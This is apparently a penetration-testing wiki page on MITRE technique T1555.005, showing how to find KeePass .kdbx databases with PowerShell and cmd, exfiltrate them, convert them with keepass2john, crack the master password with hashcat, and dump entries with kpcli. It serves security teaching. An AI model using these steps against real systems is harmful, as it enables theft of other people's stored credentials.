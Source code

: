 ```yaml
---
description: >-
  MITRE ATT&CK™ Credentials from Password Stores: Password Managers - Technique
  T1555.005
---
```


# Password managers

## Theory

Password managers generate and securely store passwords of various services, safeguarding them under a single master password. This master password serves as the key to access all the stored passwords within the password manager.&#x20;

Examples of Password Manager applications:

* [Built-in password managers (Windows)](windows-credential-manager.md)
* Third-party: KeePass, 1Password, LastPass

However, misconfiguration and security flaws are found in these applications that let us access stored data. Various tools could be used during the enumeration stage to get sensitive data in password manager applications used by Internet browsers and desktop applications.

## Practice

### KeePass

#### Cracking Master Password

{% tabs %}
{% tab title="Find and Crack" %}
If we gained access to the keepass database, we may be able to extract it and crack the master database password.&#x20;

Keepass database is stored as a `.kdbx` file, we can search for such files using following commands:

```powershell
#PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

#Cmd
dir /s /b C:\*.kdbx
```

One we exfiltrate the database to our attacking computer, we can start by using [keepass2john](https://gist.github.com/scottlinux/f6cb8b1bb7807e89c09c139064f69881) and save the output hase a crackable hash.

```bash
keepass2john keepass.kdbx > keepass.hash
```

Then, we may crack the master password using hashcat. See [this page](../../passwd/brute-force/offline-password-cracking.md) for more details about cracking passwords.

```bash
hashcat -a 0 -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --user
```

Now, we can open the database using [kpcli](https://github.com/rebkwok/kpcli) and dump passwords

<pre class="language-bash"><code class="lang-bash">$ kpcli --kdb=db.kdbx
Provide the master password: *************************
<strong>kpcli:/> dir
</strong>=== Groups ===
Database/

<strong>kpcli:/> cd Database
</strong><strong>kpcli:/Database> dir
</strong>=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Sample Entry                                               keepass.info
1. Sample Entry #2                          keepass.info/help/kb/testform.
2. User Company Password

<strong>kpcli:/Database> show -f 0
</strong>Title: Sample Entry
Uname: User Name
 Pass: Password
  URL: https://keepass.info/
Notes: Notes
</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1555/005/" %}
